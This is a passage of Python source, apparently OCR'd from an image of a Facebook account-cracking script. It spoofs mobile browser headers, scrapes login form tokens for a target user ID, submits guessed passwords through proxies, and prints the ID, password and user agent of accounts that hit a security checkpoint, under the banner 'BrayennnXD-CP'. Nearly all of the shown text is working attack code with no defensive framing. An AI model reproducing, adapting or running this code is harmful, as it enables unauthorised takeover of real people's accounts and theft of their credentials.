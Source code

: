                          ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}) 
                         p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr') 
                         dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://d.facebook.com/login.php?skip_api_login=1&api_key=166363243399924&kid_directed_site=0&app_id=166363243399924&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fdialog%2Foauth%3Fclient_id%3D166363243399924%26display%3Dpopup%26redirect_uri%3Dhttps%253A%252F%252Fthirdparty.aliexpress.com%252Ffbcallback.htm%26scope%3Demail%252Cpublic_profile%252Cuser_messenger_contact%26messenger_page_id%3D335963307560%26state%3DR48laUVd0rPWsRvHJFTKtTS5cFr8ZG%252BCRYABU4qVvPvRK37pQK5uQWiFs93IY9a1y%252BXsxIsvOY60q78FjJ9ECtWPR1L4b%252B1AZ1XMmotKnilXlAe8Md1jf1VZ61FtHvT%252F%252F6UBc1gqUwQEVwfai3Ztnal%252F%252FfWiuwJ31qY%252FAoUvvPzJa%252BA66Ywk8nnPqNBdXBi6%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D7720cbb3-6ccb-48be-8820-8775c6c7b67d%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fthirdparty.aliexpress.com%2Ffbcallback.htm%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3DR48laUVd0rPWsRvHJFTKtTS5cFr8ZG%252BCRYABU4qVvPvRK37pQK5uQWiFs93IY9a1y%252BXsxIsvOY60q78FjJ9ECtWPR1L4b%252B1AZ1XMmotKnilXlAe8Md1jf1VZ61FtHvT%252F%252F6UBc1gqUwQEVwfai3Ztnal%252F%252FfWiuwJ31qY%252FAoUvvPzJa%252BA66Ywk8nnPqNBdXBi6%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr","flow":"login_no_pin","pass":pw,} 
                         koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ]) 
                         koki+=' m_pixel_ratio=2.625; wd=412x756' 
                         heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'} 
                         po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs) 
                         if "checkpoint" in po.cookies.get_dict().keys(): 
                                 if 'no' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 